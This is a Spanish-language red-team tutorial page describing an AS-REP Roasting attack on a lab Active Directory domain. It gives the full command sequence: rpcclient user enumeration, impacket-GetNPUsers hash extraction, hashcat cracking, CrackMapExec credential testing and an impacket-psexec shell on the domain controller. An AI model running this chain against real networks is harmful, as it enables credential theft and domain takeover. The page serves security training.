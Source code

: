 ```yaml
---
description: >-
  Este ataque se aprovecha de los usuarios que tienen activa la opción de "No
  requiere preautenticación de Kerberos".
---
```


# AS\_REP ROASTING

## INTRODUCCIÓN

{% hint style="info" %}
Este ataque está relacionado a las [malas prácticas](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/creando-un-laboratorio-de-ad/3.-misconfiguraciones-importantes):

* **2. Desactivar el Firewall de Windows.**
* **3. Desactivar las protecciones del Antivirus de Windows Defender.**
* **5. Asignar un SPN al usuario creado.**
* **9. Marcar la Opción "No requiere preautenticación de Kerberos".**
{% endhint %}

### Esquema de trabajo

Vamos a explotar el siguiente esquema.

En una red empresarial no hemos conseguido acceso a ningún activo por ahora, sin embargo, tenemos unos credenciales de usuario sin privilegios \(vgarcia:Password2\). Como parte de nuestra rutina tratamos de explotar un AS\_REP Roasting.

{% hint style="info" %}
La base de este ataque está en usuarios que tengan activa la Opción "No requiere preautenticación de Kerberos". Esto hace que el protocolo Kerberos expida un Ticket-Granting Ticket en nombre de dicho usuario sin comprobar su identidad.

Por tanto, cualquiera puede solicitar un **KRB\_AS\_REQ** en nombre del usuario y Kerberos devolverá un **KRB\_AS\_REP** que, recordemos, incluye una **Session Key** que está encriptado con el secreto del usuario.

Por tanto, tenemos el Hash krb5asrep del usuario que podemos crackear facilmente, siempre y cuando la contraseña no sea muy robusta.
{% endhint %}

Para entender más en profundidad estos conceptos puede leer el siguiente artículo:

{% page-ref page="../conceptos/conceptos-importantes-antes-de-continuar.md" %}

### Herramientas necesarias

#### RPCClient

Herramienta para ejecutar el cliente de MS-RPC. Viene instalada por defecto en Linux.

{% embed url="https://web.mit.edu/darwin/src/modules/samba/docs/htmldocs/rpcclient.1.html" caption="" %}

#### CrackMapExec <a id="crackmapexec"></a>

Es una herramienta de post-explotación que se aprovecha de protocolos y características propias de los entornos de Directorio Activo para obtener una gran cantidad de información sobre los mismos.

Utiliza **Impacket** y **Powersploit Toolkit**

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" caption="" %}

#### **Impacket**

Es una colección de clases de Python para trabajar con protocolos de red. Está pensada para obtener control a bajo nivel de los paquetes utilizados por algunos protocolos y, en algunos casos como SMBv1, la propia implementación del protocolo en sí mismo.

Concretamente para este ataque vamos a utilizar **impacket-GetNPUsers**

{% embed url="https://github.com/SecureAuthCorp/impacket" caption="" %}

#### PowerSploit Toolkit <a id="powersploit-toolkit"></a>

Es una colección de scripts de Powershell orientados a ayudar a pentesters en su proceso. Éste repositorio se encuentra deprecated.

{% embed url="https://github.com/PowerShellMafia/PowerSploit" caption="" %}

#### Hashcat <a id="hashcat"></a>

Es el crackeador de hashes más rápido del mundo actualmente. Puede aprovecharse de la pontecia de una GPU.

{% embed url="https://github.com/hashcat/hashcat" caption="" %}

#### **Resumen**

* Vamos a comprobar si existen usuarios con la opción "No requiere preautenticación de Kerberos" activada y a obtener sus TGTs.
* Vamos a crackear estos TGTs.
* Vamos a comprobar el alcance de los credenciales obtenidos.
* Vamos a acceder con una shell interactiva.

## EXPLOIT

### 1. Comprobar usuarios NP

Lo primero que debemos hacer es obtener los usuarios que tiene el Active Directory.

Con **rpcclient** podemos enumerar los usuarios del AD facilmente:

`rpcclient -U "vgarcia" -W hackpoc 192.168.1.100 -c enumdomusers`

![Obteniendo los usuarios de un Dominio.](../../.gitbook/assets/as_rep1.png)

Los guardamos en un archivo users.txt \(Para acelerar el proceso podemos utilizar el siguiente oneliner:

`echo "Copiamos la salida del comando anterior" | grep '\[.*?\]' | grep -v '0x' | tr -d '[]'`

Una vez lo tenemos almacenados utilizamos impacket-GetNPUsers para comprobar cuantos de estos tienen la opción NP activa:

`impacket-GetNPUsers hackpoc/ -usersfile users.txt -format hashcat -outputfile as_rep.txt`

![Hash krb5asrep conseguido](../../.gitbook/assets/as_rep2%20%282%29%20%281%29.png)

### 2. Crackear el Hash

A continuación tratamos de crackear el Hash utilizando Hashcat \(aunque tambien se puede utilizar john\).

1. Para averiguar el modo en el que trabaja hashcat con estos hashes sacamos: `hashcat --example-hashes | grep "krb5asrep" -B 2` 
2. Utilizamos hashcat para crackear el hash. `hashcat -m 18200 -a 0 as_rep.txt /usr/share/wordlists/rockyou.txt`

![Contrase&#xF1;a crackeada SVC-SQLService:MYpassword123\#](../../.gitbook/assets/as_rep3.png)

### 3. Comprobar alcance de credenciales

Utilizamos CrackMapExec para comprobar si los credenciales obtenidos tienen capacidad de PSExec con alguno de los activos de la empresa.

`cme smb 192.168.1.0/24 -u "SVC-SQLService" -p "MYpassword123#"`

![El usuario SVC-SQLService es administrador de dominio &#xA1;Premio!](../../.gitbook/assets/as_rep4.png)

### 4. shell interactiva con el DC

El usuario que hemos obtenido es un usuario administrador de dominio por lo que ahora tenemos capacidad de PSExec al DC.

`impacket-psexec hackpoc/SVC-SQLService:MYpassword123#@192.168.1.100 cmd.exe`

![&#xA1;Premio!](../../.gitbook/assets/imagen%20%2883%29.png)

## REFERENCIAS

{% embed url="https://en.hackndo.com/kerberos-asrep-roasting/%0Ahttps://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2" caption="" %}

